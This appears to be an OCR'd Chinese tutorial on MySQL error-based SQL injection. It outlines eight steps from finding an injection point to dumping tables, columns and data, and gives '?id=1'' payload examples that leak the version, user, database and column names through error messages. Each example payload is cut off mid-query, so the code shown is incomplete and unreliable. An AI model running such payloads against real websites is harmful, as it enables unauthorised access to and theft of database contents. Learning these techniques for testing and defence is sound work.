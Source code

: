 > 
<h3>1.1、简介：</h3>
SQL报错注入：利用数据库的某些报错返回机制，刻意的制造错误条件传到数据库，使得查询结果能够出现在错误返回提示信息中


> 
<h3>1.2、利用：</h3>
需要有SQL报错信息回 显
有显示位时，首先使用union联合查询语句
无显示位时，使用报错注入


> 
<h3>1.3、利用过程：</h3>
第一步：注入点测试
第二步：查询字段数
第三步：判断回显位
第四步：查看数据库基本信息
第五步：爆数据库
第六步：爆数据库表
第七步：爆字段
第八步：爆数据
<hr/>
<h3>1.4示例：</h3>
（1）爆数据库版本信息： 

?id=1' and(select 1 from(select count(*),concat((select (select (select concat(0x7e,version(),0x7e))) from information_schema. 

（2）爆当前用户：

?id=1' and(select 1 from(select count(*),concat((select (select (select concat(0x7e,user(),0x7e))) from information_schema.tab 

（3）爆当前数据库：

?id=1' and(select 1 from(select count(*),concat((select (select (select concat(0x7e,database(),0x7e))) from information_schema 

（4）爆指定表的字段

?id=1'  and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,column_name,0x7e) FROM informati 



### 1.4示例：

> 
<h3>注：</h3>
高版本的数据库，现在已经很多难以执行成功了


---


---

